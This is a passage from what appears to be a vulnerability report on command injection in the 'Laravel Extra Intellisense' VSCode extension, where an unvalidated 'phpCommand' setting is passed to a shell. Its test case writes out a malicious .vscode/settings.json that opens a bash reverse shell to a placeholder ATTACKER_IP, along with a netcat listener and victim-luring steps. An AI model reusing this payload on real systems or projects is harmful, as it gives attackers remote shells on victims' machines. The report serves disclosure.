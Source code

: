         1.  **`src/helpers.ts`**: The `runPhp` function constructs the command to execute PHP code by directly embedding the `code` parameter into the `phpCommand` setting.

        ```typescript
        static async runPhp(code: string, description: string|null = null) : Promise<string> {
            code = code.replace(/\"/g, "\\\""); // basic escaping for double quotes
            // ... platform specific escaping ...
            let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
            let command = commandTemplate.replace("{code}", code); // vulnerable line, direct substitution
            // ... execution using cp.exec(command, ...)
        }
        ```

        2.  The `phpCommand` configuration is retrieved directly from VSCode settings without any validation.

        ```typescript
        let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
        ```

        3.  The `{code}` placeholder is replaced by the `$code` argument, which is intended to be the PHP code generated by the extension, but can be influenced by a malicious `phpCommand` setting to execute arbitrary shell commands.

    * Security test case:

        1.  **Attacker setup:**
            - Set up a listener on attacker machine to receive reverse shell, e.g., `nc -lvnp 4444`.
            - Create a malicious Laravel project directory.
            - Inside the project directory, create `.vscode` folder.
            - Inside `.vscode` folder, create `settings.json` file with the following content:
            ```json
            {
                "LaravelExtraIntellisense.phpCommand": "bash -c '{code}; bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"
            }
            ```
            Replace `ATTACKER_IP` with the IP address of the attacker machine.
            - Zip the malicious project directory.
            - Send the zipped malicious project to the victim or host it on a public repository and trick the victim to clone it.

        2.  **Victim actions:**
            - Install Laravel Extra Intellisense extension in VSCode.
            - Download and extract the malicious project zip file.
            - Open the extracted project directory in VSCode.
            - Open any PHP or Blade file within the project. This should trigger the extension to run a Laravel command and thus execute the malicious `phpCommand`.

        3.  **Verification:**
            - On the attacker machine, the `netcat` listener should receive a connection, indicating successful command injection and reverse shell execution on the victim's machine.

